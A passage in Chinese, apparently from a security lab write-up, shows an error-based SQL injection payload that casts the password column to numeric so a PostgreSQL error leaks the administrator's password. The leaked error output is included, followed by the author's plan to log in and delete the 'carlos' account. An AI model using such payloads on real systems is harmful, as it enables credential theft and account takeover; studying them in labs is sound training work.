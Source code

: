 有效载荷— `'UNION SELECT NULL,NULL,NULL,NULL,CAST(password AS numeric),null,null,null from users where username='administrator' --`

响应错误— `<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;**qb4qfsrkyddqmyka0uz6**&quot;</p>`

我们得到了管理员密码作为响应(这对于不同的实例是不同的)。

现在，我们可以以管理员身份登录并删除 carlos 帐户来解决实验室问题。

我将尝试创建一个漏洞脚本来自动化密码检索部分，而不是尝试手动 sql 注入负载。

目前就这些。如果我犯了什么错误，请评论，你可以随时联系我[https://www.linkedin.com/in/niraj-kumar-choubey-7351b892/](https://www.linkedin.com/in/niraj-kumar-choubey-7351b892/)并向我问好。